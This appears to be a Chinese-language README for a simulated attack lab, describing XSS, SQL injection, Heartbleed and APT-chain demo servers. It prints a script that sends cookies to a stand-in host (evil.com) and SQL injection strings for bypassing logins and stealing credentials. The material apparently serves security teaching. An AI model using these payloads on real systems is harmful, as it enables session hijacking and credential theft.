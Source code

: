 
## 🌐 8种攻击服务器完整说明

### 1️⃣ XSS跨站脚本服务器 (端口5001)
**🎯 攻击目标**: 获取用户Cookie和会话信息
**💥 攻击效果**: 
- 用户浏览器控制
- 会话令牌窃取
- 页面内容篡改
- 键盘记录模拟

**📋 实际演示**:
```javascript
// 注入的恶意脚本示例
<script>
document.location='http://evil.com/steal?cookie='+document.cookie;
</script>
```

### 2️⃣ SQL注入服务器 (端口5002)
**🎯 攻击目标**: 数据库信息完全暴露
**💥 攻击效果**:
- 员工薪资信息泄露
- 管理员密码获取
- 数据库结构暴露
- 系统完全控制

**📋 实际演示**:
```sql
-- 攻击载荷示例
1001' OR '1'='1          -- 绕过认证
' UNION SELECT username,password FROM admin--  -- 凭据窃取
```

### 3️⃣ Heartbleed仿真服务器 (端口5003)
**🎯 攻击目标**: SSL/TLS内存数据泄露
**💥 攻击效果**:
- 私钥片段泄露
- 用户密码暴露
- 会话令牌获取
- 加密通信破解

**📋 内存泄露示例**:
```
48656c6c6f20576f726c64  |  Hello World
757365723a61646d696e   |  user:admin
706173733a31323334353  |  pass:12345
```

### 4️⃣ APT攻击链仿真系统 (端口5004)
**🎯 攻击目标**: 12阶段高级持续性威胁
**💥 攻击链条**:
1. 初始访问 → 2. 执行 → 3. 持久化 → 4. 权限提升
5. 防御规避 → 6. 凭据访问 → 7. 发现 → 8. 横向移动
9. 收集 → 10. 命令控制 → 11. 渗出 → 12. 影响
